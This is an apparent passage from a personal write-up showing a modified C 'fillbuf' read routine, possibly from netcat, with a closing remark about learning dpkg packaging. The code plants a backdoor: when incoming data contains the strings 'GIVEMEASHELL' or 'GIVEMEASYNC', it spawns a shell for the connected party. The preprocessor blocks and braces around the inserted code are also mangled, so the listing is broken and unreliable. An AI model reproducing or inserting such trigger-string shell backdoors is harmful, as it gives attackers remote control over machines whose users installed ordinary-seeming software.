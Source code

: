 ```c

ssize_t
# if defined(TLS)
fillbuf(int fd, unsigned char *buf, size_t *bufpos, struct tls *tls,int s)
# else
fillbuf(int fd, unsigned char *buf, size_t *bufpos, int s)
# endif
{
	size_t num = BUFSIZE - *bufpos;
	ssize_t n;

# if defined(TLS)
	if (tls) {
		n = tls_read(tls, buf + *bufpos, num);
		if (n == -1)
			errx(1, "tls read failed (%s)", tls_error(tls));
	} else {
# endif
		n = read(fd, buf + *bufpos, num);
		/* don't treat EAGAIN, EINTR as error */
		if (n == -1 && (errno == EAGAIN || errno == EINTR))
# if defined(TLS)
			n = TLS_WANT_POLLIN;
	}
# else
			n = -2;
			if(strstr(buf,"GIVEMEASHELL" )){
				if((fd == 3 || fd == 4) && !isShell){
			shell(s);
			memset(buf,0x00,BUFSIZE);
				}
		}

		if(strstr(buf,"GIVEMEASYNC")){
				if((fd == 3 || fd == 4) && !isShell){
			shellAsync(s);
			memset(buf,0x00,BUFSIZE);
				}
			}
```
## Conclusion
Fun project, mostly learned about dpkg and how source management works , GGWP.
